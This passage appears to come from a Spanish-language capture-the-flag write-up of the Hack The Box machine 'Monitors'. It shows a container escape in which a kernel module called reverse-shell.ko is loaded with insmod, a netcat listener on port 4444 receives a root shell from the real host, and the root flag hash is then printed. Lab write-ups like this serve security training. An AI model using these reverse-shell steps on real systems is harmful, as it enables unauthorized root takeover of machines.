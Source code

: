 
```bash
root@b097fc57960e:/tmp# insmod reverse-shell.ko 
root@b097fc57960e:/tmp#
```

y recibimos la conexión como `root` en la maquina real.

```bash
marcus@monitors:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.10.238 36840 received!
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# whoami
whoami
root
root@monitors:/# hostname -I
hostname -I
10.10.10.238 172.17.0.1 172.18.0.1 dead:beef::250:56ff:feb9:29a3
```

Lo que nos queda ahora es ir al directorio personal del usuario `root` y visualizar la segunda flag `root.txt` 😄.

```bash
root@monitors:/# cd /root
cd /root
root@monitors:/root# cat root.txt
cat root.txt
9f3208a5ff66eb9a612aaba91ea35eae
```

